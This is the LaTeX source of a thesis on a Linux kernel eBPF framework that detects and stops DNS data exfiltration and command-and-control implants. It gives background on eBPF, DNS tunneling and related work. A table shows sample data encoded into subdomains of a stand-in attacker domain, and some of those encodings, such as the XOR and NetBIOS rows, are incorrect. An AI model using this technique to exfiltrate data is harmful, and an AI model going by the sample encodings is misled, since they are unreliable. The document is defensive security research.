%  ========================================================================
%  Copyright (c) 1985 The University of Washington
%
%  Licensed under the Apache License, Version 2.0 (the "License");
%  you may not use this file except in compliance with the License.
%  You may obtain a copy of the License at
%
%      http://www.apache.org/licenses/LICENSE-2.0
%
%  Unless required by applicable law or agreed to in writing, software
%  distributed under the License is distributed on an "AS IS" BASIS,
%  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
%  See the License for the specific language governing permissions and
%  limitations under the License.
%  ========================================================================
%

% Documentation for University of Washington thesis LaTeX document class
% by Jim Fox
% fox@washington.edu
%
%    Revised 2020/02/24, added \caption()[]{} option.  No ToC.
%
%    Revised for version 2015/03/03 of uwthesis.cls
%    Revised, 2016/11/22, for cleanup of sample copyright and title pages
%
%    This document is contained in a single file ONLY because
%    I wanted to be able to distribute it easily.  A real thesis ought
%    to be contained on many files (e.g., one for each chapter, at least).
%
%    To help you identify the files and sections in this large file
%    I use the string '==========' to identify new files.
%
%    To help you ignore the unusual things I do with this sample document
%    I try to use the notation
%       
%    % --- sample stuff only -----
%    special stuff for my document, but you don't need it in your thesis
%    % --- end-of-sample-stuff ---


%    Printed in twoside style now that that's allowed
%
 
\documentclass [11pt, proquest] {uwthesis}[2020/02/24]
 
%
% The following line would print the thesis in a postscript font 


\def\bibpreamble{\protect\addcontentsline{toc}{chapter}{Bibliography}}

\setcounter{tocdepth}{1}  % Print the chapter and sections to the toc
 

% ==========   Local defs and mods
%

% --- sample stuff only -----
% These format the sample code in this document

\usepackage{alltt}  %
\usepackage{svg}
\usepackage{hyperref}
\usepackage[boxed, linesnumbered,ruled,vlined, noend]{algorithm2e}
\usepackage{setspace}
\usepackage{enumitem}
\usepackage{amsmath}
\usepackage{setspace}
\usepackage{float}
\usepackage{longtable}
\usepackage{caption} 
\usepackage{array}
\usepackage{graphicx}
\usepackage{subcaption}
\usepackage{tabularx}
\usepackage[table]{xcolor}
\usepackage{multirow}
\usepackage[utf8]{inputenc}
\usepackage[numbers]{natbib}
\usepackage{listings}
\usepackage{xcolor}
% \usepackage[backend=biber,style=authoryear]{biblatex}
% \usepackage[compact]{titlesec}
% \titlespacing*{\subsubsection}{0pt}{0.3\baselineskip}{0.2\baselineskip}
\newenvironment{demo}
  {\begin{alltt}\leftskip3em
     \def\\{\ttfamily\char`\\}%
     \def\{{\ttfamily\char`\{}%
     \def\}{\ttfamily\char`\}}}
  {\end{alltt}}

\lstset{
  basicstyle=\ttfamily\footnotesize,
  breaklines=true,
  frame=single,
  backgroundcolor=\color{gray!10},
  keywordstyle=\color{blue},
  commentstyle=\color{gray},
  stringstyle=\color{orange},
  showstringspaces=false,
  tabsize=2
}

% metafont font.  If logo not available, use the second form
%
% \font\mffont=logosl10 scaled\magstep1
\let\mffont=\sf
% --- end-of-sample-stuff ---
 

\begin{document}

 
% ==========   Preliminary pages
%
% ( revised 2012 for electronic submission )
%

\prelimpages
 
%
% ----- copyright and title pages
%
\Title{Distributed, Linux Kernel Integrated Security Framework for Real-Time Prevention of DNS Data Exfiltration}
\Author{Vedang Parasnis}
\Year{2025}
\Program{Computer Science and Systems}

\Chair{Dr. Geetha Thamilarasu}{Committee Chair}{Computing \& Software Systems}
\Signature{Dr. Munehiro Fukuda, Committee Member}
\Signature{Dr. Robert Dimpsey, Committee Member}

\copyrightpage

\titlepage  

 
%
% ----- signature and quoteslip are gone
%

%
% ----- abstract
%


\abstract{%
Data exfiltration over DNS presents a serious threat, particularly for hyperscalers handling large-scale AI workloads and sensitive data across distributed environments. In 2024, the average cost of such breaches exceeded \$4.8 million. Existing solutions often fail to prevent these attacks in real time over scaled infrastructure. 
This project develops a novel scalable framework for real-time DNS exfiltration prevention, designed to counter advanced Command-and-Control techniques. The system uses lightweight eBPF agents to perform deep packet inspection directly in the Linux kernel, enabling high-speed, per-packet analysis of outbound DNS traffic. A userspace neural network performs real-time lexical analysis to detect obfuscated or malicious payloads. Upon detection, the kernel enforces active defense by immediately terminating malicious processes to contain the threat at the source. The system also exports telemetry, including process identifiers and DNS usage patterns, to Kafka brokers, supporting dynamic domain blacklisting and policy enforcement across nodes without relying on external middlewares.
Experimental results demonstrate that the framework scalability and successfully disrupts and terminates sophisticated DNS exfiltration tunnels and implants with subsecond response time, including the highest-reputed adversary emulation frameworks. It reduces attacker dwell time, blocks lateral movement, and improves system-level threat visibility for security teams operating in distributed environments.
}
 
%
% ----- contents & etc.
%
\tableofcontents
\listoffigures
\listoftables  % I have no tables


%
% ----- dedication
%
% \dedication{\begin{center}to my dear wife, Joanna\end{center}}

%
% end of the preliminary pages
 
 
 
%
% ==========      Text pages
%

\textpages
 
% ========== Chapter 1
 
\chapter {Introduction}
\section{Motivation and Goals}
Modern threat actors continuously evolve, employing increasingly sophisticated techniques and covert communication channels to maintain persistence on compromised systems and exfiltrate data before detection or remediation. A common entry point in such attacks involves the deployment of lightweight implants or command-and-control (C2) clients. These are often compiled in formats like COFF (Common Object File Format) and delivered to targeted endpoints through phishing campaigns, social engineering, or other initial access vectors.
Once a system is compromised, these implants use beacon intervals, strong encryption, and protocol tunneling to remain hidden, effectively bypassing volumetric and time-based detection mechanisms at the firewall. This silent phase of data exfiltration is both stealthy and resilient, allowing adversaries, such as advanced persistent threats (APTs), to maintain long-term control, steal undetected sensitive data, and move laterally within the network.
The Domain Name System (DNS) remains one of the most effective channels for attackers to run covert C2 communication and exfiltrate data. As a core protocol responsible for domain-to-IP resolution, business operations, and service discovery, DNS is rarely deeply monitored or filtered at firewalls, making it an ideal backdoor, offering attackers a discreet pathway for unauthorized data transfer and remote command execution on infected systems. 
This exploitation can cause massive damage to enterprises, as demonstrated by some of the cyber-espionage groups. Hexane, a major threat actor in the Middle East and Asia, used a custom system called DNSsystem to stealthily exfiltrate data from energy and telecom sectors through encrypted DNS tunnels, beacon obfuscation, and adaptive payloads. Likewise, MoustachedBouncer leveraged the Nightclub implant to exploit DNS redirection at the ISP level, using DNS as a resilient covert channel for long-term espionage in eastern Europe and Central Asia. These campaigns have compromised state institutions and critical infrastructure, underscoring the scale and sophistication of DNS-based threats.
Existing solutions primarily rely on passive analysis techniques such as anomaly detection, domain reputation scoring, and static blacklists. However, these approaches are inherently reactive, slow to respond, and often ineffective against stealthy adaptive APT malware. As a result, they offer no guarantees of preventing data loss before exfiltration occurs: By time detection triggers, malicious commands may have already been executed, and significant damage is inflicted.
To address these limitations and the evolving sophistication of DNS exfiltration attack vectors, this project aims to develop a robust endpoint-centric defense mechanism that enforces DNS security from within the operating system. The design and implementation are guided by the following core goals:
\begin{itemize}[nosep]
  \item Enforce DNS exfiltration protection from within the Linux kernel to enable in-line, real-time traffic inspection and eliminate reliance on external security middleware.
  \item Instantly detect and terminate malicious implants and DNS-based C2 communication, reducing response time without manual intervention.
  \item Enable adaptive detection of obfuscated exfiltration techniques by integrating userspace deep learning with kernel-level enforcement.
  \item Provide distributed scalable enforcement by streaming threat events across nodes for dynamic network Layer 3 policy enforcements paired with domain blacklisting for Layer 7 filters.
  \item Detect and disrupt advanced DNS-based C2 techniques, including Domain Generation Algorithms (DGAs), remote execution, and process side channeling, to protect against a broader class of stealthy threat vectors beyond exfiltration.
\end{itemize}


% , rather than relying on passive userspace monitoring or centralized anomaly detection tools. As cloud providers face increasing demand for secure, high-availability infrastructure, there is a growing requirement for systems that can instantly neutralize malicious implants at the source, reducing response time and actively blocking DNS-based exfiltration in real time supporting dynamic domain blacklisting, thereby protecting endpoints across the network without requiring human intervention for safeguarding massively scaled, multiregion cloud environments, where DNS is critical for business operations.
% The \hyperref[sec:apt_malware_flow]{Figure 1.1} illustrates the lifecycle of an implant. By severing DNS C2 links and immediately terminating the implant, lateral movement is prevented and attacker control is disrupted at the first stage.
% \vspace{-0.5em} 
% \begin{figure}[!htbp]
% \centering
% 
\includegraphics[width=\textwidth]{UWThesis/images/apt_malware.png}
% \caption{APT Malware Exploitation Phases}
% \label{sec:apt_malware_flow}
% \end{figure}

% \section{Objective}
% This project presents an endpoint-centric security framework designed to prevent DNS-based data exfiltration in real time across distributed systems running the Linux kernel. By embedding detection and enforcement logic directly in the kernel using eBPF, the framework identifies and terminates DNS C2 implants, disrupts command-and-control communication, and blocks DNS tunneling and obfuscated payloads. The design enables rapid threat mitigation, comprehensive visibility, and scalable zero trust enforcement across distributed environmnets.


% \section{Objective}
% This project develops a security framework to proactively prevent various forms of data exfiltration over the DNS protocol, with a specific focus on endpoint-based enforcement in Linux systems and distributed  environments. The system targets a broad range of threats, including low-throughput DNS exfiltration via beaconing implants, high-throughput DNS data breaches, and DNS tunneling, even when encapsulated over nonstandard ports. By embedding detection and prevention logic directly into the Linux kernel using Extended Berkley Packet Filter (eBPF), the framework enables termination of malicious DNS C2 implants at the lowest layer of the operating system. It is tightly integrated with the kernel syscall layer to reduce attacker dwell time and enable real-time response. The framework incorporates rich lexical analysis to detect obfuscated DNS payloads and uses deep learning models trained on large datasets of malicious traffic to enhance detection accuracy while minimizing false positives. It also enforces strict privilege separation between userspace and kernel space using Linux Security Modules (LSM) and seccomp, following the principles of least privilege and zero trust. This system is designed to counter domain evasion techniques such as Domain Generation Algorithms (DGA), randomized beaconing intervals, and encapsulated payloads, while also producing actionable telemetry and observability for tracing and incident response of DNS-based threats in distributed environments.
% By combining advanced Linux kernel programming (v5.2+), deep learning–assisted threat detection, and real-time security enforcement in distributed systems over DNS servers, the project addresses a critical gap in securing DNS which both research and enterprise security solutions lack.

\chapter {Background}
This chapter provides a comprehensive overview of the internals of the Linux kernel network stack, the role of eBPF for dynamic security enforcement within the kernel, the complexity and types of DNS data exfiltration, and the fundamental limitations of the DNS protocol that enable various forms of attacks.

\section{eBPF}
The extended Berkeley Packet Filter (eBPF), introduced in Linux kernel 3.15 (2014), is a general-purpose virtual machine in the kernel evolved from the classic BPF \cite{10.5555/1267303.1267305}. Unlike kernel modules, which risk destabilizing the system, eBPF safely injects verified code into the kernel, enabling dynamic programmability without compromising stability or security. eBPF surpasses other programmable data path technologies such as P4 \cite{bosshart2014p4} and DPDK \cite{8701793}, which operate outside the kernel or lack visibility into kernel-level security subsystems. These models cannot access core primitives such as process identity or Linux’s Mandatory Access Control (MAC) layers, limiting their ability to enforce deep, context-sensitive security policies. eBPF, on the contrary, operates directly within the kernel network stack and security layers, allowing high-resolution enforcement and real-time analysis of malicious traffic. eBPF programs are written in a restricted C subset, compiled via LLVM to a platform-independent bytecode, and executed by a RISC-like in-kernel VM. The execution model enforces strict safety: a 512-byte stack, bounded loops, 11 64-bit registers, and a cap of one million instructions. Before loading, the BPF verifier ensures control flow integrity and memory safety. Programs are Just-In-Time (JIT) compiled for performance and executed within a sandboxed environment. A core strength of eBPF is its use of BPF maps, persistent, kernel-resident key-value stores that support data structures such as LRU caches, stacks, and queues for efficient state management and data sharing. In addition, eBPF maps support pinning to the BPF filesystem, allowing data to persist beyond the lifecycle of the userspace program that loaded the eBPF program in kernel. All interactions are mediated through the \texttt{bpf()} syscall, guarded by \texttt{CAP\_BPF} or \texttt{CAP\_SYS\_ADMIN} for complex programs which are reserved for privilege users.

% Figure~\ref{fig:eBPF-injection} outlines the eBPF lifecycle: development, compilation, verification, and runtime attachment. In this work, eBPF targets kernel-level inspection of userspace \texttt{socket\_write} calls, forming the foundation for low-latency, adaptive in-kernel security enforcement.

 % Once verified, the kernel can further optimize the program using in-kernel Just-In-Time (JIT) compilation, benefiting from both LLVM optimizations during compilation and runtime JIT enhancements after attachment. eBPF programs interact with userspace via maps—persistent, kernel-resident key-value data structures. These maps allow secure sharing of state and come in various types optimized for different use cases, such as BPF\_MAP\_TYPE\_LRU\_HASH, BPF\_MAP\_TYPE\_LPM\_TRIE, and BPF\_MAP\_TYPE\_STACK. Maps can be accessed using a map ID or a pinned file descriptor through the BPF virtual file system, enabling persistence beyond the lifetime of the original userspace loader.Program loading and interaction are tightly controlled through a single syscall: bpf(). Kernel-level Mandatory Access Control and Linux capabilities (e.g., CAP\_BPF, CAP\_NET\_ADMIN) are enforced to reduce the attack surface. For instance, attaching eBPF programs to the network data path requires CAP\_NET\_ADMIN, especially when managing network interfaces via AF\_NETLINK sockets. Once injected, eBPF programs are attached to various kernel hook points—network stack, scheduler, security modules—using kernel probes, tracepoints, or userland hooks.

% \begin{figure}[H]
% 
\includegraphics[width=0.9\textwidth]{UWThesis/images/eBpf inject flow.png}
% \caption{eBPF Programs Injection Phases in Kernel}
% \label{fig:eBPF-injection}
% \end{figure}

% \section{Linux Kernel Network Stack}
% The Linux kernel network stack processes packets as they traverse ingress and egress paths. Each packet is represented in memory as a socket kernel buffer (SKB), a metadata-rich structure that the kernel manipulates by advancing internal head pointers. SKBs enable layered processing, allowing headers and payloads to be parsed and modified efficiently. Packets go through multiple stages, classification, filtering, scheduling, and forwarding, across different network interfaces via dedicated receive (RX) and transmit (TX) queues. These queues may be managed by software in the kernel or by hardware through NIC drivers, enabling flow processing as packets move up or down the network stack \cite{stephan2024path}. Egress is especially critical for preventing exfiltration. When a userspace process writes to a socket, the kernel routes the resulting SKB through the TCP/IP stack, Netfilter (link layer), Traffic Control (TC) for shaping and classification, and finally to the Network Interface Card (NIC) driver for transmission. Each stage of packet processing supports runtime hook injection via eBPF, enabling event-driven triggers as packets traverse the stack in either direction. This flexibility allows eBPF programs to be attached at various points, providing powerful re-programmability of the network stack.
% This path—illustrated in Figure~\ref{sec:kernel-network-datapath}—highlights where eBPF hooks can intercept and analyze outbound traffic with full process and socket context, essential for detecting and blocking exfiltration attempts in real time.
% \begin{itemize}
%     \item \textbf{Socket Layer}: Interfaces with userspace and manages TCP/IP protocol socket types.
%     \item \textbf{Netfilter (Link Layer)}: Processes netdev flows and provides basic packet manglineg/filtering capabilities.
%     \item \textbf{Traffic Control (TC)}: Implements Quality of Service (QoS), traffic shaping, and classification via the classful or classles queuing discipline (qdisc) system.
%     \item \textbf{Network Device Drivers}: Handle the transmission of packets over physical or virtual interfaces.
% \end{itemize}
% Linux supports both software-based and hardware-based netdevs, each with dedicated drivers. Communication between userspace and the kernel networking stack is often managed via \texttt{NETLINK} sockets, particularly when configuring subsystems like TC or Netfilter.

% \label{sec:kernel-network-datapath}
% \begin{figure}[h]
% 
\includegraphics[width=1.0\textwidth]{UWThesis/images/kernel_datapath_flow.png}
% \caption{Linux Kernel Network DataPath}
% \end{figure}



\section{eBPF Integration with the Linux Kernel Network Stack}
The Linux kernel network stack processes packets through layered ingress and egress paths using socket kernel buffers (SKBs), enabling efficient parsing, filtering, and forwarding across RX/TX queues, with eBPF hooks providing runtime programmability at critical stages such as Netfilter and Traffic Control. Within this stack, the Traffic Control (TC) subsystem plays a crucial role in enforcing egress security, extending beyond its traditional responsibilities like flow control and quality of service (QoS). TC provides fine-grained traffic management through shaping, scheduling, classification, policing, and packet dropping. These functions are implemented via queueing disciplines (QDISCs), which determine how packets are prioritized and transmitted through the network driver’s transmission queues \cite{salim2015linux}. Among these QDISCs, CLSACT (classless QDISC with actions) is particularly valuable for advanced security enforcement. It enables classification and action hooks on both ingress and egress paths without disrupting existing classful (e.g., HTB) or classless (e.g., FQ\_CODEL, PRIO\_FAST) traffic configurations. This backward compatibility makes CLSACT suitable for production environments, allowing seamless integration of programmable in-kernel logic. eBPF programs attached to CLSACT filters can chain classification and actions with configurable priorities, enabling deterministic and layered packet filtering directly within the kernel \cite{borkmann2016getting}. Since CLSACT operates before any default QDISC, it is ideal for embedding additional security logic without affecting existing traffic control behavior. This approach preserves QoS guarantees while enabling real-time, low-latency filtering. Although CLSACT is commonly used by Container Network Interface (CNI) plugins in Kubernetes - for overlay routing, IP masquerading, and node-to-node communication - its full potential to enforce in-kernel security policies remains largely untapped.
Beyond TC, eBPF programs can attach across multiple layers of the kernel network stack. These include the high-speed ingress path via XDP, the link layer via Netfilter, socket-layer hooks (e.g., sockops, sk\_msg), and even syscall interfaces and kernel security modules. This broad hook coverage enables eBPF to support profiling, observability, rate limiting, deep packet inspection (DPI), and threat detection with minimal overhead and maximum control.

% Figure~\ref{sec:ebpf-hooks-kernel-network-datapath} illustrates these attachment points across the kernel stack.
% used in scalable security architectures primarily for bandwidth, and throughput measurement, rate limiting, or packet mangling however, supporting actions over packet post-classification this QDISC IS extensively useful for packet filtering in the kernel TC layer based packet payload characteristics

% intercept packets just before transmission or immediately after reception, enabling drops, header rewrites, metadata tagging, and rerouting to different netdevs, all from inside the kernel.
% Beyond TC, the deep integration of eBPF with the Linux networking stack allows injection of advanced security logic per packet at multiple strategic hook points: \hyperref[sec:ebpf-hooks-kernel-network-datapath]{eBPF hooks} explains all eBPF different hook points in the kernel network data path. In addition, with faster packet processing socket types introduced in linux kernel (AF\_XDP) allows injection of raw packets directly from userspace into the device driver TX queues, allowing fast egress packet processing by passing kernel network stack particularly highly relevant for high egress packet processing.

% \begin{itemize}
% \item \textbf{XDP (Express Data Path)}: Executes at the earliest ingress point, in the NIC driver, before the kernel allocates memory for the packet.
% \item \textbf{Traffic Control (TC)}: Executes at both ingress and egress via CLSACT, allowing programmable filtering on sk\_buff structures.
% \item \textbf{Socket Layer and CGroups}: Enables filtering and accounting at the socket API level, with namespace and container awareness.
% \item \textbf{Netfilter and LSM}: Interfaces with iptables/nftables and Linux Security Modules for netdev link, kernel mandatory access control for certain kernel syscalls.
% \item \textbf{Raw Tracepoints and KProbes}: Instrument arbitrary kernel functions for tracing, introspection, or runtime logic injection.
% \end{itemize}


% While cloud native environments such as Kubernetes have adopted eBPF through CNIs like Cilium (from Isovalent, now part of Cisco) for enforcing L3/L7 policies and observability, current solutions focus largely on kernel socket layer for filtering, load-balancing or DDoS prevention via XDP. To date, no industry solution has comprehensively leveraged eBPF across the Linux network stack, syscall interface, and security subsystems to proactively prevent DNS exfiltration or disrupt active Command-and-Control (C2) activity in real time.




% \begin{figure}
% 
\includegraphics[width=1.0\textwidth]{images/kernel_datapath.png}
% \caption{eBPF hooks over Linux Kernel Network DataPath}
% \label{sec:ebpf-hooks-kernel-network-datapath}
% \end{figure}


\section{DNS-based Data Exfiltration}
DNS-based data exfiltration is a covert technique used by adversaries to extract sensitive information from compromised systems via the DNS protocol. Often deployed by memory-resident, fileless implants, it minimizes forensic footprints by exploiting DNS’s ubiquity and permissiveness—traits that make it rarely filtered or blocked. Attackers encode payloads into the subdomain portion of outbound DNS queries, transmitting them to attacker-controlled domains or delegated nameservers through standard recursive DNS resolution. As shown in \hyperref[dns_payload_obfuscation]{Table 2.1}, exfiltrated data is obfuscated using base encoding, compression, and segmentation. Common DNS record types like \texttt{A}, \texttt{AAAA}, \texttt{MX}, and \texttt{HTTPS} are used for compatibility, while \texttt{TXT} and \texttt{NULL} offer flexible payload capacity making them ideal for C2 responses. To bypass inspection, adversaries use DGA, randomized query timing, ephemeral encryption, and even tunnel DNS over arbitrary transport ports using tools like DNSCat2 encapsulating traffic in ways that evade firewall rules.


\begin{table}[htbp]
\centering
\begin{tabular}{|l|l|l|}
\hline
\textbf{Encoding Format} & \textbf{Exfiltrated Payload} & \textbf{Encoded DNS Subdomain} \\
\hline
Base64 & TopSecret & VG9wU2VjcmV0.dns.exfil.com \\
\hline
Mask (XOR 0xAA) & TopSecret & DE.D5.F2.F9.E9.C7.CF.DE.dns.exfil.com \\
\hline
NetBIOS & TopSecret & ECPFEDFEFCDCECEEEA.dns.exfil.com \\
\hline
CRC32 (Hex) & TopSecret & 7F9C2BA4.dns.exfil.com \\
\hline
AES-CBC (Hex + IV) & TopSecret & IV.A1.B2.C3.D4.E5.F6.07.08.dns.exfil.com \\
\hline
RC4 (Hex) & TopSecret & 9A.B3.47.E2.8C.4D.11.6F.dns.exfil.com
\\
\hline
Raw (Hex) & TopSecret & 546f70536563726574.dns.exfil.com
\\
\hline
\end{tabular}
\caption{DNS Payload Obfuscation Techniques}
\label{dns_payload_obfuscation}
\end{table}

\subsubsection{DNS Tunneling}
DNS tunneling bypasses perimeter defenses by embedding breached payloads or protocol data into query fields. These payloads are disguised as legitimate DNS traffic to covertly link compromised hosts to remote servers. Advanced variants leverage kernel-level encapsulation (e.g., \texttt{TUN/TAP}, VXLAN) via privileged virtual interfaces (\texttt{CAP\_NET\_ADMIN}), while dynamically adjusting throughput and timing to evade anomaly detection—complicating real-time prevention due to DNS’s benign and intermittent nature.

\subsubsection{DNS Command and Control (C2)}
DNS-based C2 is an advanced form of tunneling used to establish persistent full-duplex covert channels between implants and attacker-controlled servers. Using a client-server model, implants poll for encoded commands via queries and exfiltrate execution results in responses - enabling remote control, backdoors, port forwarding, and DNS-based reverse tunnels. To evade detection, attackers vary beacon timing and rotate domains/IPs using DGA. Multiplayer C2 frameworks coordinate multiple operators that exploit several implants simultaneously, overwhelming passive defenses. Static blacklists and rules are ineffective against such adaptive threats. Real-time in-kernel termination of both the DNS C2 channel and the implant process is critical, but current solutions are slow and reactive, thereby falling short before command execution or data loss occurs.

\subsubsection{DNS Raw Exfiltration}
Raw DNS exfiltration transmits sensitive data, such as credentials or files, directly through high-volume bursts of DNS queries. Although noisier than tunneling or C2, it can succeed before alert thresholds are triggered or policy enforcement takes effect. Since most defenses are reactive or delayed, prevention at the point of transmission is essential to ensure zero data loss.


\section{DNS Protocol Security Enhancements and Limitations}
Several standardized enhancements improve DNS integrity and privacy:
	\begin{itemize}[nosep]
	    \item \textbf{DNSSEC} Add cryptographic signatures to DNS records to ensure authenticity and prevent spoofing or cache poisoning. However, it does not encrypt payloads, leaving queries visible to intermediaries and vulnerable to covert channels for data exfiltration.
        \item \textbf{DNS-over-TLS (DOT)}: Encrypt DNS queries to prevent surveillance and man-in-the-middle attacks. While improving privacy, this encryption blinds traditional security tools, limiting DPI and weakening intrusion detection (IDS) and data loss prevention (DLP) systems.
	\end{itemize}
Although effective against some attacks, these protocols do not prevent DNS-based data exfiltration originating from endpoint implants that exploit protocol-compliant DNS structures for covert communication.


% \label{sec:dns c2 flow}
% \begin{figure}[H]
% \centering
% 
\includegraphics[width=0.58\linewidth]{UWThesis/images/dns_exfil_flow.png}
% \caption{DNS Data Exfiltration Phases}
% \end{figure}

\section{Existing Prevention Mechanisms and Limitations}
Common DNS exfiltration defenses include:
    \begin{itemize}[nosep]
        \item \textbf{DNS Sinkholing}: Redirects queries for known malicious domains to controlled endpoints.
        \item \textbf{Response Policy Zones (RPZ)}: Apply static filtering rules on DNS servers based on enforced domain access control policies.
    \end{itemize}
Although effective against known threats, traditional defenses are reactive, relying on static blacklists or passive DPI triggered post-alert. This delay allows DNS exfiltration and the C2 commands to be successful. They also fail against DGA-based implants that rapidly rotate domains, making static rulesets too slow to prevent real-time damage.
% \section{DNS Resolution Flow and Kernel Interaction on Linux}
% The standard DNS resolution flow on Linux involves several user and kernel space components. When a client application initiates a DNS query using functions such as \texttt{getaddrinfo()} via \texttt{libc}, it typically communicates over D-Bus with \texttt{systemd-resolved}, the stub resolver. The \texttt{nsswitch.conf} file defines the order and method of name resolution, whether via DNS, /etc/hosts, or other mechanisms. When the stub resolver is enabled, most systems proxy DNS requests over the loopback interface (usually \texttt{127.0.0.53}). If a DNS response is not found in the local cache, the stub resolver forwards the query to an upstream resolver associated with the physical network interface, using destination NAT (DNAT) and source NAT (SNAT) rules as needed.
% In systems without a stub resolver, DNS queries are sent directly to the upstream resolver via the active \texttt{net\_device}, as managed by \texttt{systemd-resolved}. This routing decision is typically based on default routes assigned through DHCP or static configuration.
% From a kernel perspective, the network device (\texttt{net\_device}) involved in the resolution process determines the interface through which DNS traffic is forwarded. The kernel routes the packet toward the upstream DNS IP address configured in \texttt{/etc/resolv.conf}, based on routing tables and device status. This tight coupling between the resolution process and the kernel network stack is leveraged by the eBPF agents for inline DNS parsing and enforcement.


\chapter {Related Work}
This chapter reviews related work on the use of eBPF for network security, research that uses machine learning to detect DNS data exfiltration, and current enterprise solutions.

\section{Network Security using eBPF}
eBPF has emerged as a critical technology for modern networking, security, and observability in Linux. Its ability to inject safe, verifiable code into the kernel makes it ideal for high-performance, in-kernel programmability without compromising system stability. These features have led to widespread adoption by cloud providers, particularly in large-scale data planes and hyperscalers for traffic filtering and enforcement of declarative network policies across multiple layers of the Linux kernel. Most existing research focuses on the ingress path using XDP (eXpress Data Path), a high-speed packet processing mechanism integrated into the network driver, commonly referred to as the high-speed ingress kernel datapath. Initially proposed by \citeauthor{10.1145/3281411.3281443}, XDP was later adopted into the Linux kernel to enable early packet drops, hardware offload at the NIC level, and improved throughput. It is often combined with eBPF to support low-latency programmable network processing and security enforcement for DDoS preventions \cite{10.1145/3281411.3281443, 8850758}.
\citeauthor{10.1145/3371038} studies provide architectural overviews and performance analyses of eBPF in networking contexts \cite{10.1145/3371038}, similarly \citeauthor{bertrone2018accelerating} explains accelerating kernel network firewalls by combining eBPF and iptables \cite{bertrone2018accelerating}, yet they predominantly address inbound traffic. In contrast, the egress path—critical for detecting and preventing data exfiltration remains relatively underexplored. 

